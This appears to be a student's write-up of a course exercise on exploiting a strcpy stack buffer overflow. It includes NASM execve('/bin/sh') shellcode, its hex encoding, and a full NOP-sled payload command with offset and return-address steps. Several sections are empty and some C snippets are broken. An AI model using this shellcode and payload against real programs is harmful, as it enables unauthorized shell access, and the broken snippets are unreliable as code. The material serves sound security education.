


### Exercise 6

1. Briefly explain why this program is exploitable?
__Solution :__ Function `strcpy` accepts user input `argv[1]` and copies the C string into buffer without checking the bounds. `strcpy` also has no way of knowing low large the destination vuffer size is.

__2 Provide some C source code that contains assembler instructions executing a shell (e.g.
/bin/sh) and.
__solution__

```

```


3. 
```nasm
global _start

SECTION .text

_start:
    xor eax, eax  ; clear eax registers
    push eax    ; push eax into stack
    ; push 68732f6e69622f2f2f2f = '////bin/sh' into stack
    push 0x68736162 
    push 0x2f6e6962
    push 0x2f2f2f2f
    push esp  ; push stack pointer
    pop ebx ; copy stack pointer into ebx
    push 0xb  ; syscall number 11 for execve 
    pop eax  
    int 0x80 ; pass control to interupt
          
```

4

```bash
$ nasm -felf32 shlle32_v2.nasm -o shell32v2.o   
```
Using `objdump` to extract machine specific instructions (in hexadecimal) from object file generated `shell32v2.o`





__Header file__

payload.h

```c
extern char hexContent={"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x54\x5b\x6a\x0b\x58\xcd\x80"};

```

c program

```c
char buffer = hexContent

```

__How it works:__


__5__.


__6: Solution__

__step 1:__ Fill the buffer with characters(`'AAA..'`) until segmentation fault occurs (which indicates that program has crashed due to illegal read or write(in our case) of memory location).



__step 2:__ locate Instruction Pointer `ip` and overwrite it with known characters.

 

- Check `dmesg`(tool to examing the buffer) found that `ip` is overwritten with `42424242`(`BBBB` in ASCII) which is last 4 bytes of our input, so the offset is 264.

- set breakpoint at `strcpy` and step inside the function call.


- Examine `$esp` to verify contents have been copied properly into the buffer 


- Pick any of the starting addresses from the stack `0xffffcefc`(in our case).

- Now use this address to overwrite the instruction pointer `ip` to point to our shellcode.

- Calculate shellcode length(`20 bytes`)
- Fill the buffer with no-ops `\x90` +`20 bytes shellcode` + `return address` which should result to 268 bytes(`offset` + `return address`) and run


payload

```bash
./example4 $(python -c "print('\x90'*208   + '\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xfc\xce\xff\xff' * 10  )")

```
- payload breakdown
`208 bytes` (no-ops) + `20 bytes` shellcode + `4 bytes` return address * 10 = `268 bytes`.


<br>

### EXERCISE 7

1. 


### EXERCISE 8


